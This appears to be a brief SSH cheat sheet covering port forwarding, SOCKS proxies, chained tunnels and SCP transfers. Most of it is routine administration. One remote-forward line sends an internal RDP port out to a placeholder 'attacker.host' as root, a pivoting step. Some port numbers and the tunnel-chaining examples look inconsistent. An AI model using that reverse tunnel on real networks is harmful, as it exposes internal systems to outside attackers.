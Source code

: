 #### port forward

*local port forward*

```ssh -L 8443:127.0.0.1:8443 user@remote.host```

```ssh -i id_rsa.key -L 6969:127.0.0.1:6969 user@remote.host```

*remote port forward*

```ssh -R 5901:127.0.0.1:5901 user@remote.host```

```ssh -l root -t -t -R 3389:10.10.10.1:3398 attacker.host```

-----


#### port forward SOCKS5

```ssh -D 5555 user@yourserver.com -p 5555```

-----

*Joining Tunnels Together*

```Machine A: ssh -D 5555 user@machineB -p5555```
```Machine B: ssh user@machineB -D 5555```
```Machine C: ssh user@machineB -L 5555:localhost:5555```


#### SCP transfers

*Local (file) to remote host specifying remote port*

```scp -P 1337 file.zip username@remotehost.com:/remote/dir/file.zip```

*Local (directory) to remote host using default port 22*

```scp /local/dir/ username@remotehost.com:/remote/dir/```

*Remote host A to remote host B*

```scp username@host-a.com:/host_a/dir/file.zip username@host-b.com:/host_b/dir/file.zip```

-----

